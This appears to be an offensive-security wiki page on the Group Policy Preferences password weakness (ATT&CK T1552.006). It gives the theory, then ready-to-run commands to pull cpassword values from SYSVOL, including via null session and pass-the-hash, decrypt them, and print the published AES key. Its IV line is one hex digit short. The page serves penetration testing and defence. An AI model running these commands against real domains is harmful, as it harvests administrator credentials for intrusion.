 ```yaml
---
description: MITRE ATT&CK™ Sub-technique T1552.006
---
```


# Group Policy Preferences

## Theory

Windows systems come with a built-in Administrator \(with an RID of 500\) that most organizations want to changed the password of. This can be achieved in multiple ways but there is one that is to be avoided : setting the built-in Administrator's password through Group Policies.

* **Issue 1** : the password is set to be the same for every \(set of\) machine\(s\) the Group Policy applies to. If the attacker finds the admin's hash or password, he can gain administrative access to all \(or set of\) machines.
* **Issue 2** : by default, knowing the built-in Administrator's hash \(RID 500\) allows for powerful [Pass-the-Hash](../../abusing-lm-and-ntlm/pass-the-hash.md) attacks \([read more](../../abusing-lm-and-ntlm/pass-the-hash.md#limitations-tips-and-tricks)\).
* **Issue 3** : all Group Policy are stored in the Domain Controllers' `SYSVOL` share. All domain users have read access to it. This means all domain users can read the encrypted password set in Group Policy Preferences, and since Microsoft published the encryption key around 2012, the password can be decrypted🤷♂.

## Practice

{% tabs %}
{% tab title="UNIX-like" %}
From UNIX-like systems, the [Get-GPPPassword](https://github.com/ShutdownRepo/Get-GPPPassword) \(Python\) script can be used to remotely parse `.xml` files and loot for passwords.

```bash
# with a NULL session
Get-GPPPassword.py -no-pass 'DOMAIN_CONTROLLER'

# with cleartext credentials
Get-GPPPassword.py 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'

# pass-the-hash
Get-GPPPassword.py -hashes 'LMhash':'NThash' 'DOMAIN'/'USER':'PASSWORD'@'DOMAIN_CONTROLLER'
```

Alternatively, searching for passwords can be done manually \(or with Metasploit `smb_enum_gpp` module\), however it requires mounting the `SYSVOL` share, which can't be done through a docker environment unless it's run with privileged rights.

Tools like [pypykatz](https://github.com/skelsec/pypykatz) \(Python\) and [gpp-decrypt](https://github.com/BustedSec/gpp-decrypt) \(Ruby\) can then be used to decrypt the matches.

```bash
# create the target directory for the mount
sudo mkdir /tmp/sysvol

# mount the SYSVOL share
sudo mount\
    -o domain='domain.local'\
    -o username='someuser'\
    -o password='password'\
    -t cifs\
    '//domain_controller/SYSVOL'\
    /tmp/sysvol

# recursively look for "cpassword" in Group Policies
sudo grep -ria cpassword /tmp/sysvol/'domain.local'/Policies/ 2>/dev/null

# decrypt the string and recover the password
pypykatz gppass j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
gpp-decrypt j1Uyj3Vx8TY9LtLZil2uAuZkFQA/4latT76ZwgdHdhw
```
{% endtab %}

{% tab title="Windows" %}
From Windows systems, the GPP password can only be recovered from an authenticated \(i.e. domain user\) context \(see [impersonation](../impersonation.md)\).

[PowerSploit](https://github.com/PowerShellMafia/PowerSploit/)'s [Get-GPPPassword](https://github.com/PowerShellMafia/PowerSploit/blob/master/Exfiltration/Get-GPPPassword.ps1) searches a Domain Controller's SYSVOL share `Groups.xml`, `Services.xml`, `Scheduledtasks.xml`, `DataSources.xml`, `Printers.xml` and `Drives.xml` files and returns plaintext passwords

```bash
Import-Module .\Get-GPPPassword.ps1
Get-GPPPassword
```

This can also be achieved without tools, by "manually" looking for the `cpassword` string in xml files and by then manually decrypting the matches.

```bash
findstr /S cpassword %logonserver%\sysvol\*.xml
```

The decryption process is as follows

```text
1. decode from base64
2. decrypt from AES-256-CBC the following hex key/iv
    Key : 4e9906e8fcb66cc9faf49310620ffee8f496e806cc057990209b09a433b66c1b
    IV : 0000000000000000000000000000000
3. decode from UTF-16LE
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://adsecurity.org/?p=2288" %}

{% embed url="http://blog.carnal0wnage.com/2012/10/group-policy-preferences-and-getting.html" %}




